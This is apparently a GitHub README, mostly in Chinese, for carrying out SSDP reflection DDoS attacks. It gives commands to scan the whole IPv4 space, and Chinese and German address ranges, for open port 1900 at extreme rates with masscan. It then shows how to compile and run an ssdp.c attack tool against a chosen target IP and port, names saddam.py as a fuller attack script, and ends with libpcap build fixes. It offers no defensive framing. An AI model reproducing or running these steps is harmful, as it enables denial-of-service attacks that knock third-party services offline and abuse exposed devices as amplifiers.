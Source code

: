 # Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装环境
	yum install git make screen gcc libpcap-dev

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make && make install

### 扫描 Server
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**<br>
> screen masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

> **扫描德国IP段方式**<br>
> screen masscan -iL ip/ger_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本<br>

### 报错 libpcap
	# 从官网下载最新的 http://www.tcpdump.org/release/
	# 或直接用 http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	wget -c http://www.tcpdump.org/release/libpcap-1.9.1.tar.gz
	tar zxf libpcap-1.9.1.tar.gz
	cd libpcap-1.9.1
	make && make install
	ls /usr/local/lib
	# 发现已经有了libpcap的so了
	vim /etc/ld.so.conf
	# 追加一行
	/usr/local/lib
	# 使用如下命令刷新
	ldconfig
